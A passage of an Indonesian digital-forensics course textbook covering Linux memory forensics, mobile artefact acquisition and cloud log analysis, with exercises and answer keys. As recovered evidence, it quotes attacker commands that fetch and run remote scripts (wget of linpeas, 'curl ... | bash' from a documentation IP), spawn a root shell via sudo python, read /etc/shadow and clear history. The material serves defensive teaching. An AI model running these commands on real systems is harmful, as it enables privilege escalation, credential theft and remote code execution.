# 2341 bash     2025-10-29 03:39:10 id
# 2341 bash     2025-10-29 03:39:12 whoami
# 2341 bash     2025-10-29 03:39:15 uname -a
# 2341 bash     2025-10-29 03:39:20 cat /etc/passwd | grep -v nologin
# 2341 bash     2025-10-29 03:39:35 wget http://198.51.100.45/linpeas.sh -O /tmp/l.sh
# 2341 bash     2025-10-29 03:39:37 chmod +x /tmp/l.sh && bash /tmp/l.sh
# 2341 bash     2025-10-29 03:40:15 cat /tmp/linpeas_output.txt | grep "SUID\|sudo"
# 2341 bash     2025-10-29 03:42:01 sudo -l
# 2341 bash     2025-10-29 03:42:10 sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
# 2341 bash     2025-10-29 03:42:15 id    ← sekarang menjadi root!
# 2341 bash     2025-10-29 03:42:20 cat /etc/shadow
# 2341 bash     2025-10-29 03:42:25 history -c   ← mencoba hapus history!
# 2341 bash     2025-10-29 03:42:26 rm /tmp/l.sh
```

**Interpretasi:**
Attacker masuk (mungkin via RDP atau web shell), melakukan enumeration (`id`, `whoami`, `uname`), download privilege escalation script (linpeas), escalate ke root via misconfigured sudo, baca shadow file (password hashes), dan mencoba menghapus jejak. Meski `history -c` dan `rm` dijalankan, bash history masih tersimpan di **memori** karena dump diambil sebelum shell ditutup.

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menghasilkan memory forensics lab report yang lengkap dan reproducible.

**Aktivitas:**
1. Gunakan dataset dari Bab 4 dan 5 (atau dataset baru Linux memory dump dari dosen).
2. Jalankan semua plugin yang relevan dan dokumentasikan semua commands verbatim.
3. Buat correlation matrix: temuan memory vs artefak disk (jika dosen menyediakan disk artifacts).
4. Buat laporan menggunakan template bagian 4.4.
5. Sertakan: hash verification, commands verbatim, findings, IOC table, limitation statement, reproducibility note.

**Output:** Complete memory forensics lab report — ini adalah deliverable utama Eval-2.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa bash history dalam memory berbeda dari `.bash_history` di disk? Dalam kondisi apa attacker bisa berhasil menghapus history dari memory?

2. **(C5)** Seorang investigator menemukan kernel module mencurigakan dalam `linux.lsmod` output dari memory analysis, namun ketika dikonfirmasi ke `/proc/modules` dari disk artifacts, module tersebut tidak ada. Evaluasi interpretasi yang mungkin dan tingkat confidence yang tepat.

## 9. Latihan Terapan / Studi Kasus

Tim anda mendapatkan memory dump dari web server nginx yang diduga dikompromis. linux.bash menunjukkan bahwa user `www-data` menjalankan perintah yang tidak biasa: `curl http://198.51.100.45/b64.sh | bash`. linux.netstat menunjukkan koneksi established ke 198.51.100.45:9001. linux.lsmod menunjukkan module bernama `sysnet.ko` yang tidak dikenal. (a) Apa yang masing-masing temuan ini signifikan? (b) Buat correlation matrix untuk ketiga temuan ini; (c) Identifikasi artefak disk atau network apa yang akan Anda cari untuk corroboration; (d) Tulis limitation statement yang tepat untuk temuan ini.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** `.bash_history` di disk: di-tulis ketika shell ditutup secara normal (exit) atau ketika `history -w` dijalankan. Bash history dalam memory: bash menyimpan command history dalam in-memory buffer selama sesi aktif. Jika dump diambil saat sesi bash masih aktif, semua perintah sesi ini ada di memori meski belum pernah di-tulis ke disk. Kondisi di mana attacker bisa berhasil hapus: jika shell ditutup sebelum dump diambil (memory sudah deallocated); jika memory menggunakan swap yang sudah di-overwrite; jika bash dikonfigurasi dengan HISTSIZE=0 (tidak menyimpan history sama sekali dari awal). Bahkan setelah `history -c` dijalankan dalam sesi yang masih aktif, memory structures bash mungkin masih mengandung traces dari commands yang sudah dihapus dari in-memory list — tergantung implementasi bash dan fragmentasi memori.

**Soal 2:** Interpretasi yang mungkin: (a) MOST LIKELY: ini adalah rootkit LKM yang menyembunyikan dirinya dari `/proc/modules`. Rootkit canggih memanipulasi kernel linked list yang dibaca oleh `lsmod`/`/proc/modules` namun struktur aslinya masih ada di kernel memory yang di-scan Volatility. (b) POSSIBLE tapi unlikely: memory dump lebih lama dari artifacts disk yang dikumpulkan — module ada saat dump namun sudah di-unload sebelum `/proc/modules` dibaca. (c) FALSE POSITIVE: Volatility men-scan memory secara heuristik dan mungkin salah mengidentifikasi data sebagai module. Confidence level: (a) = Medium-High (menunggu corroboration); (b) = Low (timeline harus diperiksa); (c) = Low (perlu verifikasi lebih lanjut). Tindakan: cari corroboration lain (network activity, file di /lib/modules/, syslog entries saat module diload).

**Studi Kasus:** (a) `curl ... | bash` dari `www-data`: web shell atau RCE exploit berhasil mendapatkan execution sebagai www-data; perintah ini men-download dan langsung mengeksekusi skrip dari C2 tanpa menyimpan ke disk; pola klasik fileless initial payload. Koneksi ke 198.51.100.45:9001: port 9001 sering digunakan untuk reverse shell; koneksi established berarti C2 sedang aktif saat dump dibuat. `sysnet.ko` kernel module: unknown module = kemungkinan rootkit LKM. (b) Correlation matrix: curl → network: ada connection ESTABLISHED ke source IP yang sama; curl → disk: mungkin tidak ada jejak file (fileless); sysnet.ko → /proc/modules: tidak ada (confirmed hiding = HIGH confidence rootkit). (c) Artefak yang dicari: nginx access log untuk HTTP request yang me-trigger RCE; /var/log/auth.log untuk persistence; firewall log untuk validasi outbound connection; file di /lib/modules atau /tmp untuk modul atau payload; cron entries untuk persistence. (d) Limitation statement: "Temuan ini merupakan analisis memory snapshot pada [timestamp]. C2 mungkin sudah tidak aktif atau telah berganti IP. Module `sysnet.ko` teridentifikasi sebagai possible rootkit berdasarkan ketidakhadiran dalam /proc/modules, namun ini memerlukan corroboration karena kemungkinan false positive dalam heuristic scanning. Tidak dapat menentukan dengan pasti kapan initial compromise terjadi berdasarkan memory analysis saja — timeline analysis disk diperlukan."

## 11. Ringkasan Bab

Linux memory forensics menggunakan struktur data kernel (task_struct) yang dapat di-scan dengan Volatility linux plugins. `linux.bash` mengungkap command history yang belum di-flush ke disk — artefak yang sering dihapus attacker namun tersimpan di memori. Deteksi rootkit LKM melalui perbandingan `linux.lsmod` dengan `/proc/modules`. Cross-validation antara memory findings dan disk/log artifacts meningkatkan confidence level. Lab report yang reproducible harus mencakup: hash verification, verbatim commands, findings, IOC table, limitation statement, dan reproducibility note.

## 12. Refleksi Profesional

1. Reproducibility dalam forensik berarti investigator lain harus bisa mengulang analisis Anda dengan tool yang sama dan mendapatkan hasil yang sama. Namun Volatility 3 terus berkembang — versi berbeda mungkin menghasilkan output berbeda. Bagaimana Anda mengelola masalah reproducibility ini dalam jangka panjang, terutama untuk kasus yang mungkin digunakan sebagai bukti bertahun-tahun kemudian?


---

# BAB 7 — MOBILE FORENSICS LANJUTAN: ARTEFAK DAN AKUISISI

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Memahami jenis akuisisi mobile dan keterbatasan masing-masing
- Mengidentifikasi artefak kritis dalam perangkat Android dan iOS
- Menganalisis metadata dan log dari aplikasi mobile
- Menerapkan prinsip legal dan etika dalam akuisisi mobile

*Berkaitan dengan Sub-CPMK-3, Eval-3 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Mobile Forensics Lanjutan] --> B[Jenis Akuisisi]
    B --> B1["Logical:\nfile yang visible via\nAPI/backup — mudah, terbatas"]
    B --> B2["File System:\nakses filesystem lengkap\n(perlu jailbreak/root atau tool khusus)"]
    B --> B3["Physical:\nbyte-for-byte image storage chip\n(sulit, hasil paling lengkap)"]
    B --> B4["Cloud backup:\niCloud, Google backup\n(memerlukan credential atau legal process)"]
    A --> C[Android Artefacts]
    C --> C1["SQLite databases:\nSMS, WhatsApp, browser history,\ncall logs"]
    C --> C2["Shared Preferences:\napp configuration (XML)"]
    C --> C3["App-specific directories:\n/data/data/<package>/"]
    C --> C4["Media: /sdcard/DCIM,\nDownload, WhatsApp/Media"]
    A --> D[iOS Artefacts]
    D --> D1["iTunes/iCloud backup:\nencrypted vs unencrypted"]
    D --> D2["SQLite databases:\nMessagesDB, CallHistory, Contacts"]
    D --> D3["Property list (plist):\napp settings, cache, preferences"]
    D --> D4["Keychain:\npasswords, certificates — encrypted"]
    A --> E[Keterbatasan dan Legalitas]
    E --> E1["Enkripsi full-disk:\nAndroid FDE/FBE; iOS Data Protection"]
    E --> E2["Legal basis:\nneed warrant, consent, atau corporate policy"]
    E --> E3["Anti-forensics:\nkeychain wiped on failed passcode,\nremote wipe risk"]
```

## 3. Pengantar Kontekstual

Perangkat mobile menyimpan volume bukti yang sangat kaya: pesan, lokasi, foto, aktivitas aplikasi, koneksi jaringan, dan jejak kebiasaan pengguna. Namun, mobile forensics juga menghadirkan tantangan terbesar dalam hal enkripsi, fragmentasi ekosistem, dan kompleksitas hukum. Bab ini membahas pendekatan defensif dan legal dalam menganalisis artefak mobile — bukan teknik bypass enkripsi yang bersifat ofensif.

## 4. Landasan Teori

### 4.1 Jenis Akuisisi Mobile: Trade-off

**Logical Acquisition:**
- Mengakses data melalui API resmi perangkat (iTunes backup, ADB backup)
- Menghasilkan: kontak, SMS, email, kalender, catatan, sebagian app data
- Tidak menghasilkan: data yang dihapus, unallocated space, app data yang dilindungi
- Kelebihan: mudah, tidak invasif, legal tanpa jailbreak/root
- Keterbatasan: terbatas pada data yang di-expose API; data terhapus tidak tersedia

**File System Acquisition:**
- Mengakses filesystem lengkap (perlu elevated access: jailbreak iOS, root Android)
- Menghasilkan: semua file yang ada di filesystem termasuk database lengkap
- Keterbatasan: memodifikasi perangkat (jailbreak/root) yang bisa diargumentasikan mengubah state

**Physical Acquisition:**
- Byte-for-byte copy dari flash storage chip
- Menghasilkan: data terhapus, unallocated space, semua artefak
- Keterbatasan: memerlukan hardware khusus; chip-off untuk beberapa model; enkripsi FDE/FBE adalah barrier utama

**Rekomendasi forensik:** Gunakan tingkat akuisisi yang paling minimal yang memberikan bukti yang diperlukan untuk kasus — jangan selalu memilih invasif jika logical cukup.

### 4.2 Android Artefak Kritis

```bash
# Dalam konteks lab berotorisasi menggunakan ADB pada perangkat yang disetujui:
# (Bukan analisis perangkat pribadi tanpa consent)

# Backup logical via ADB:
adb backup -apk -shared -all -f backup_$(date +%Y%m%d).ab

# Jika file system access tersedia (contoh pada emulator atau rooted test device):
# SMS database (Android):
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
# Analisis menggunakan SQLite:
sqlite3 mmssms.db "SELECT date, address, body FROM sms ORDER BY date DESC LIMIT 20;"

# Call log:
adb pull /data/data/com.android.providers.contacts/databases/contacts2.db
sqlite3 contacts2.db "SELECT number, date, duration, type FROM calls ORDER BY date DESC;"

# Browser history (Chrome on Android):
adb pull /data/data/com.android.chrome/app_chrome/Default/History
sqlite3 History "SELECT url, title, last_visit_time FROM urls ORDER BY last_visit_time DESC LIMIT 20;"

# Lokasi/GPS history (Google Maps cache):
adb pull /data/data/com.google.android.gms/databases/
```

**Tabel artefak penting Android:**

| Artefak | Lokasi | Format | Isi |
|---|---|---|---|
| SMS/MMS | /data/data/com.android.providers.telephony/databases/mmssms.db | SQLite | Pesan, nomor, timestamp |
| Call log | /data/data/com.android.providers.contacts/databases/contacts2.db | SQLite | Nomor, durasi, tipe |
| WhatsApp | /sdcard/WhatsApp/Databases/msgstore.db | SQLite (encrypted) | Pesan (perlu key) |
| Browser | /data/data/com.android.chrome/Default/History | SQLite | URL, judul, waktu kunjungan |
| Lokasi | /data/data/com.google.android.gms/databases/ | SQLite | GPS history |
| Shared Prefs | /data/data/[package]/shared_prefs/*.xml | XML | App configuration |

### 4.3 iOS Artefak Kritis

**iTunes backup:** Backup iOS (encrypted atau unencrypted) berisi hampir semua data user. Backup terenkripsi juga menyertakan keychain data. Lokasi backup di komputer:
- Windows: `%APPDATA%\Apple Computer\MobileSync\Backup\`
- macOS: `~/Library/Application Support/MobileBackup/Backup/`

```python
# Script untuk parse iTunes backup manifest (dalam lab, tidak modifikasi asli):
import plistlib, os

backup_dir = "/path/to/itunes_backup/"
manifest_path = os.path.join(backup_dir, "Manifest.db")

# Manifest.db adalah SQLite database:
import sqlite3
conn = sqlite3.connect(manifest_path)
cursor = conn.execute("""
    SELECT fileID, relativePath, flags, file
    FROM Files
    WHERE relativePath LIKE '%sms%' OR relativePath LIKE '%CallHistory%'
    ORDER BY relativePath
""")
for row in cursor:
    print(f"FileID: {row[0][:16]}... Path: {row[1]}")
# Output: mengidentifikasi file SMS dan CallHistory dalam backup
```

**Property list (plist) analysis:**
```bash
# Parse plist file (binary atau XML) — menggunakan dataset yang disediakan:
# Pada macOS:
plutil -convert xml1 -o output.xml input.plist

# Atau menggunakan Python:
python3 -c "
import plistlib
with open('AppInfo.plist', 'rb') as f:
    plist = plistlib.load(f)
for key, val in plist.items():
    print(f'{key}: {val}')
"
```

### 4.4 Legal Framework untuk Mobile Forensics

**Prinsip legal akuisisi mobile di Indonesia:**

1. **Corporate/organizational device:** Perusahaan umumnya memiliki kebijakan tertulis (Acceptable Use Policy/AUP) yang membolehkan akses ke perangkat kerja. Ini harus dikonfirmasi dengan Legal Counsel sebelum akuisisi.

2. **Personal device (BYOD):** Memerlukan consent tertulis dari pemilik ATAU surat perintah dari penyidik yang berwenang.

3. **Tersangka dalam kasus pidana:** Memerlukan izin dari penyidik berwajib (Polri) dengan prosedur sesuai KUHAP.

4. **Risiko anti-forensics mobile:**
   - iOS: setelah gagal PIN terlalu banyak kali, keychain di-wipe — kehilangan semua password dan credential
   - iOS/Android: remote wipe via Find My/Find My Device — jika tersangka memiliki akses internet selama akuisisi
   - **Mitikasi:** masukkan perangkat ke Faraday bag sesegera mungkin untuk memblokir sinyal; nonaktifkan WiFi/cellular sebelum akuisisi

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Analisis SQLite WhatsApp database (dataset yang disanitasi):**

```python
"""
Script analisis WhatsApp database (msgstore.db) dari backup yang disediakan.
Dataset ini sudah disanitasi dan merupakan data fiktif untuk keperluan lab.
"""
import sqlite3
from datetime import datetime

def analyze_whatsapp(db_path):
    """Analisis basic WhatsApp message database"""
    conn = sqlite3.connect(db_path)
    
    # Statistik pesan
    total = conn.execute("SELECT COUNT(*) FROM messages").fetchone()[0]
    
    # Pesan terakhir (untuk demo — data fiktif)
    recent = conn.execute("""
        SELECT 
            remote_resource as sender,
            datetime(timestamp/1000, 'unixepoch') as msg_time,
            data as message_text
        FROM messages
        WHERE data IS NOT NULL
        ORDER BY timestamp DESC
        LIMIT 10
    """).fetchall()
    
    print(f"Total pesan: {total}")
    for msg in recent:
        print(f"[{msg[1]}] {msg[0]}: {msg[2][:80]}...")
    
    conn.close()

# Panggil dengan file dari dataset lab (BUKAN WhatsApp database asli):
analyze_whatsapp("/lab/dataset/sample_whatsapp_sanitized.db")
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menganalisis artefak mobile dari backup yang disediakan dosen.

**Aktivitas (menggunakan dataset yang disanitasi dari dosen):**
1. Terima backup Android atau iOS yang sudah disanitasi (data fiktif).
2. Identifikasi dan parse: SMS/Call log database, browser history, 1 aplikasi tambahan.
3. Buat timeline dari artefak yang ditemukan.
4. Dokumentasikan: jenis akuisisi (bagaimana backup ini dibuat), format, tool, hash.
5. Identifikasi acquisition limitations: apa yang tidak tersedia dalam backup ini?
6. Tulis evidence integrity checklist.

**Output:** Mobile artefact analysis report + acquisition limitation note — bagian dari Eval-3.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa Faraday bag diperlukan segera setelah penyitaan perangkat mobile? Apa skenario terburuk yang bisa terjadi jika perangkat dibiarkan terhubung ke jaringan?

2. **(C4)** Sebuah kasus melibatkan perangkat iPhone yang di-lock dengan passcode yang tidak diketahui. Jelaskan: (a) jenis akuisisi apa yang masih mungkin tanpa passcode? (b) apa risikonya jika mencoba brute-force passcode? (c) apa prosedur yang benar dalam situasi ini?

3. **(C3)** Apa perbedaan antara "logical acquisition" dan "file system acquisition" dalam konteks Android forensics? Kapan masing-masing tepat digunakan?

## 9. Latihan Terapan / Studi Kasus

Dalam kasus penipuan online, Anda diberikan backup iPhone dari tersangka yang dibuat oleh penyidik menggunakan iTunes (tidak terenkripsi). Backup tersebut berisi pesan WhatsApp, browser history, dan call log. (a) Apa yang bisa dan tidak bisa diakses dari backup tidak terenkripsi ini? (b) Jika ditemukan bahwa tersangka menggunakan aplikasi Signal — mengapa ini menjadi masalah forensik? (c) Bagaimana Anda mendokumentasikan "acquisition limitation" dalam laporan? (d) Artefak apa yang paling relevan untuk kasus penipuan online?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Faraday bag memblokir semua sinyal radio (WiFi, Bluetooth, cellular 4G/5G). Jika dibiarkan terhubung: (a) tersangka atau rekan dapat mengirim remote wipe command via Find My iPhone/Find My Device → seluruh data device di-wipe sebelum sempat diakuisisi; (b) jika ada active malware, dapat mengirim data sebelum device diakuisisi; (c) notifikasi dari app (misalnya banking app) dapat mengubah state device; (d) GPS location updates dapat mengubah location data.

**Soal 2:** (a) Tanpa passcode: iTunes backup (tidak terenkripsi) masih bisa dibuat untuk beberapa versi iOS; logical acquisition melalui connector. Namun mayoritas data user dilindungi oleh Data Protection classes yang memerlukan passcode untuk decrypt. Artefak yang mungkin masih accessible: beberapa metadata, tidak terenkripsi cache. (b) Risiko brute-force: iOS dapat dikonfigurasi untuk wipe setelah 10 percobaan gagal — risiko kehilangan seluruh data; juga berpotensi pelanggaran hukum jika dilakukan tanpa otorisasi yang tepat. (c) Prosedur yang benar: dokumentasikan bahwa passcode tidak tersedia; masukkan ke Faraday bag; konsultasikan dengan legal tentang opsi legal process; pertimbangkan cloud backup sebagai alternatif (dengan legal order yang sesuai); jangan mencoba brute-force tanpa izin eksplisit dan pemahaman risiko.

**Soal 3:** Logical acquisition Android = data yang accessible via ADB backup API atau sync dengan PC: kontak, SMS, kalender, foto, sebagian app data yang diizinkan developer. Tidak termasuk: data app yang tidak diizinkan backup, data terhapus, internal storage penuh. File system acquisition = akses ke seluruh filesystem `/data/data/[package]` untuk setiap app: termasuk database penuh, cache, shared preferences, log. Memerlukan: rooted device atau exploit. Kapan masing-masing: Logical untuk kasus di mana data obvious sudah cukup (pesan, kontak, foto); File system untuk kasus yang memerlukan data app yang tidak di-backup, atau data yang mungkin dihapus dari visible storage.

**Studi Kasus:** (a) Backup tidak terenkripsi: bisa diakses: pesan SMS, iMessage, call log, kontak, foto, browser history, sebagian app data (termasuk WhatsApp backup jika ada). Tidak bisa diakses: keychain (passwords, certificates hanya tersedia di encrypted backup), app data yang tidak di-backup, data terhapus. (b) Signal: Signal secara eksplisit menghapus database-nya dari backup (tidak di-backup ke iTunes/iCloud) sebagai fitur privasi; Signal lokal di device hanya accessible dengan physical access ke device dan passcode; bahkan dengan file system access, database Signal terenkripsi dengan key yang di-generate per-device. Ini adalah limitation yang harus didokumentasikan. (c) Acquisition limitation note: "Backup ini dibuat menggunakan iTunes tanpa enkripsi. Data yang tidak tersedia dalam backup ini meliputi: Keychain (password, certificate), database aplikasi Signal (dikecualikan oleh Signal dari backup), data terhapus, dan unallocated storage. Temuan ini mungkin tidak mencerminkan keseluruhan komunikasi tersangka." (d) Artefak paling relevan untuk penipuan online: browser history (situs yang dikunjungi), email/pesan yang mungkin berisi komunikasi penipuan, screenshot/foto (mungkin berisi bukti transaksi atau identitas korban), kontak (nomor pihak-pihak yang terlibat), app data aplikasi keuangan/payment.

## 11. Ringkasan Bab

Mobile forensics memerlukan pemilihan tingkat akuisisi yang tepat: logical (mudah, terbatas), file system (lengkap, perlu elevated access), atau physical (paling komprehensif, paling invasif). Faraday bag wajib segera setelah penyitaan. Artefak kritis Android tersimpan dalam SQLite databases di `/data/data/[package]/`; iOS artefak di-backup via iTunes/iCloud dalam format plist dan SQLite. Enkripsi (iOS Data Protection, Android FBE) adalah barrier utama. Keterbatasan akuisisi harus didokumentasikan secara eksplisit dalam laporan.

## 12. Refleksi Profesional

1. Mobile forensics sering menyentuh data yang sangat personal: pesan intim, lokasi pergerakan, foto pribadi, informasi kesehatan. Bahkan dalam investigasi yang sah secara hukum, ada etika tentang bagaimana data ini ditangani. Bagaimana Anda memastikan bahwa data mobile yang di-akuisisi hanya digunakan untuk tujuan investigasi yang spesifik, dan tidak "tersimpan" atau "dilihat" secara tidak perlu?

---

# BAB 8 — CLOUD FORENSICS: ARTEFAK, LOG, DAN KETERBATASAN

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi sumber log dan artefak dalam berbagai platform cloud
- Memahami shared responsibility model dalam konteks forensik
- Menganalisis cloud activity logs untuk investigasi
- Mendokumentasikan keterbatasan akuisisi cloud

*Berkaitan dengan Sub-CPMK-3, Eval-3 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Cloud Forensics] --> B[Log Sources]
    B --> B1["AWS CloudTrail:\nAPI calls — siapa lakukan apa?"]
    B --> B2["AWS VPC Flow Logs:\nnetwork metadata"]
    B --> B3["Azure Activity Log:\nmanagement plane events"]
    B --> B4["Google Workspace Audit:\nDrive, Gmail, Login activity"]
    A --> C[Account Activity]
    C --> C1["Login events:\nwaktu, IP, user agent"]
    C --> C2["Data access:\nbucket/object GetObject,\nfile download"]
    C --> C3["Configuration changes:\nPermission changes, policy updates"]
    C --> C4["Anomaly indicators:\nIP geolocation, unusual hours"]
    A --> D[Shared Responsibility\nForensic Implications]
    D --> D1["IaaS: customer bertanggung\njawab OS/app logs"]
    D --> D2["SaaS: provider controls logs;\ncustomer butuh legal process"]
    D --> D3["Provider cooperation:\npreservation request, legal hold"]
    A --> E[Cloud Artefact Analysis]
    E --> E1["Sync artefacts:\nOneDrive, Google Drive sync log"]
    E --> E2["Mobile backup:\niCloud, Google backup"]
    E --> E3["Metadata:\nfile creation, modification,\nsharing history"]
    E --> E4["Distributed evidence:\nbukti tersebar di multi-provider"]
```

## 3. Pengantar Kontekstual

Cloud forensics menghadirkan tantangan mendasar: investigator tidak memiliki akses fisik ke media penyimpanan. Bukti ada di "suatu tempat" di data center provider, accessible hanya melalui API dan log yang disediakan provider. Shared responsibility model menentukan siapa yang bertanggung jawab atas apa, dan secara langsung menentukan apa yang bisa diakses investigator versus apa yang memerlukan legal process kepada provider.

## 4. Landasan Teori

### 4.1 Cloud Forensics: Tantangan Fundamental

1. **No physical access:** Tidak bisa ambil harddisk dari cloud server. Akuisisi melalui API — yang dikendalikan oleh provider.
2. **Multi-tenancy:** Data customer mungkin secara fisik berdampingan dengan data customer lain di storage yang sama.
3. **Ephemeral resources:** VM, container, dan fungsi serverless mungkin sudah tidak exist saat investigasi dilakukan.
4. **Data geolocation:** Data mungkin tersimpan di multiple regions/countries — yurisdiksi hukum yang berbeda.
5. **Provider dependency:** Akses ke beberapa jenis log memerlukan cooperation dari provider, mungkin memerlukan legal process (subpoena, court order).

### 4.2 AWS CloudTrail Analysis untuk Forensik

```python
"""
Analisis CloudTrail log untuk forensik.
Menggunakan exported log file yang sudah tersedia (BUKAN query langsung ke production).
"""
import json
from datetime import datetime
from collections import defaultdict

def analyze_cloudtrail(log_file):
    with open(log_file, 'r') as f:
        data = json.load(f)
    
    records = data.get('Records', [])
    print(f"Total events: {len(records)}")
    
    # Kelompokkan per user
    user_activity = defaultdict(list)
    suspicious_events = []
    
    for rec in records:
        user = rec.get('userIdentity', {}).get('userName', 'Unknown')
        event = rec.get('eventName', '')
        time = rec.get('eventTime', '')
        source_ip = rec.get('sourceIPAddress', '')
        
        user_activity[user].append({
            'event': event,
            'time': time,
            'sourceIP': source_ip
        })
        
        # Flag suspicious events
        SUSPICIOUS = ['DeleteTrail', 'StopLogging', 'CreateAccessKey',
                      'AttachUserPolicy', 'CreateUser', 'PutBucketPolicy']
        if event in SUSPICIOUS:
            suspicious_events.append({
                'user': user,
                'event': event,
                'time': time,
                'sourceIP': source_ip
            })
    
    print("\n=== SUSPICIOUS EVENTS ===")
    for ev in sorted(suspicious_events, key=lambda x: x['time']):
        print(f"[{ev['time']}] {ev['user']} @ {ev['sourceIP']}: {ev['event']}")
    
    print("\n=== USER ACTIVITY SUMMARY ===")
    for user, activities in user_activity.items():
        ips = set(a['sourceIP'] for a in activities)
        print(f"{user}: {len(activities)} events from {len(ips)} unique IPs")

# Gunakan dengan exported CloudTrail log dari lab/dataset:
analyze_cloudtrail("/lab/dataset/cloudtrail_sample.json")
```

### 4.3 Google Workspace Audit Log Analysis

Google Workspace Admin menyediakan audit log untuk: Login, Drive, Gmail, Admin activities.

```python
"""
Parse Google Workspace audit log export (CSV format).
Dataset: file export dari Workspace Admin Console (sudah disanitasi untuk lab).
"""
import csv
from datetime import datetime
from collections import defaultdict

def analyze_workspace_audit(csv_file):
    login_events = []
    drive_downloads = []
    
    with open(csv_file, 'r') as f:
        reader = csv.DictReader(f)
        for row in reader:
            event_type = row.get('Event Name', '')
            actor = row.get('Actor', '')
            timestamp = row.get('Time', '')
            ip = row.get('IP Address', '')
            
            if 'login' in event_type.lower():
                login_events.append({'actor': actor, 'time': timestamp, 'ip': ip, 'event': event_type})
            elif 'download' in event_type.lower() or 'copy' in event_type.lower():
                drive_downloads.append({'actor': actor, 'time': timestamp, 'item': row.get('Doc Title', ''), 'event': event_type})
    
    print("=== LOGIN EVENTS ===")
    for ev in login_events[-10:]:  # 10 terbaru
        print(f"[{ev['time']}] {ev['actor']} dari {ev['ip']}: {ev['event']}")
    
    print("\n=== DRIVE DOWNLOADS/COPIES ===")
    for ev in drive_downloads[-10:]:
        print(f"[{ev['time']}] {ev['actor']}: {ev['event']} - '{ev['item']}'")
    
    print(f"\nTotal login events: {len(login_events)}")
    print(f"Total download/copy events: {len(drive_downloads)}")

analyze_workspace_audit("/lab/dataset/workspace_audit_sample.csv")
```

### 4.4 Keterbatasan Cloud Forensics yang Wajib Didokumentasikan

```markdown
## Acquisition Limitation Note — Cloud Evidence

### 1. Log Availability
- CloudTrail: default retention 90 hari (S3 jika dikonfigurasi: bisa lebih lama)
- VPC Flow Logs: dikonfigurasi per-VPC; mungkin tidak aktif saat insiden
- Google Workspace: retention default bervariasi per tier/subscription
- **Implikasi:** Log yang tidak dikonfigurasi sebelum insiden tidak dapat dipulihkan.

### 2. Shared Responsibility Gaps
- IaaS (EC2, VM): customer bertanggung jawab untuk OS/app logs; mungkin tidak ada
- SaaS (Gmail, Office 365): provider kontrol logs; customer akses melalui admin console
- **Implikasi:** Log di luar scope admin console memerlukan legal process ke provider.

### 3. Provider Cooperation Timeline
- AWS/Google/Microsoft: preservation request dan legal hold bisa membutuhkan 2-4 minggu
- Provider mungkin di yurisdiksi berbeda dari kasus — memerlukan MLAT (Mutual Legal Assistance Treaty)
- **Implikasi:** Keputusan tentang legal process harus dibuat segera setelah insiden teridentifikasi.

### 4. Ephemeral Evidence
- Lambda functions, containers, auto-scaled instances mungkin sudah tidak ada
- Spot/preemptible instances dapat dihentikan kapan saja
- **Implikasi:** Banyak cloud forensics harus dilakukan pada log, bukan pada resource yang sedang running.

### 5. Interpretasi Log
- API call dalam CloudTrail mencatat "siapa" dan "apa" — tidak selalu "mengapa"
- IP address dalam log mungkin adalah NAT gateway atau proxy — bukan IP aktual pengguna
- **Implikasi:** Cloud logs adalah petunjuk, bukan bukti langsung — perlu corroboration.
```

## 5. Model atau Arsitektur

